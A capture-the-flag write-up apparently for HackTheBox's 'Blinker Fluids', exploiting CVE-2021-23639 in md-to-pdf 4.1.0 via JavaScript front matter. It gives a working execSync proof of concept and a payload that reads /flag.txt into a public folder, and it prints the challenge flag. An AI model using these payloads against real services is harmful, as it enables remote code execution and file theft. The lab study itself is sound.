


# Blinker Fluids

## Challenge info:

> Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

------

We got Docker instance and downloadable part which contains source code.

So, we got Node.js application with the list of invoices



There are several actions that we have such as create invoice, export to PDF or delete. If we click the 'Create New Invoice' button then we will see WYSIWYG editor.



Let's go to check source code and find out what happening. The most interesting place is invoice creating:

```js
router.post('/api/invoice/add', async (req, res) => {
    const { markdown_content } = req.body;

    if (markdown_content) {
        return MDHelper.makePDF(markdown_content)
            .then(id => {
                db.addInvoice(id)
					.then(() => {
						res.send(response('Invoice saved successfully!'));
					})
					.catch(e => {
						res.send(response('Something went wrong!'));
					})
            })
            .catch(e => {
                console.log(e);
                return res.status(500).send(response('Something went wrong!'));
            })
    }
    return res.status(401).send(response('Missing required parameters!'));
});
```

Here markdown is converted to PDF and id of invoice is inserted in database. And also let's see to source code of method that converts MD to PDF.

```js
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}
```

A third-party library is imported here and then used to generate PDFs. Also, after generation the PDF is saved in `/static/invoices`. In the `package.json` we can see that application is using version `4.1.0` of md-to-pdf library. 

```json
{
	"name": "blinker-fluids",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js"
	},
	"keywords": [],
	"author": "rayhan0x01",
	"license": "ISC",
	"dependencies": {
		"express": "4.17.3",
		"md-to-pdf": "4.1.0",
		"nunjucks": "3.2.3",
		"sqlite-async": "1.1.3",
		"uuid": "8.3.2"
	},
	"devDependencies": {
		"nodemon": "^1.19.1"
	}
}
```

Let's see what is this library and does it have some vulnerabilities. After some searching I was able to find [CVE-2021-23639](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-23639) and [Issue on GitHub](https://github.com/simonhaenisch/md-to-pdf/issues/99) with PoC. As stated in the CVE, versions below 5.0.0 are vulnerable and we have 4.1.0 so we can try it.

The initial PoC was `---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE` but let's modifiy it to get a flag.

From Dockerfile we know that flag is located in `/flag.txt`. Our payload will be:

```js
---js
(require("fs").writeFileSync("static/flag.txt", (require("fs")).readFileSync("/flag.txt", "utf8")))
---
```

And the next step will be go to `/static/flag.txt` and got the flag `HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`

## Flag:

> `HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`

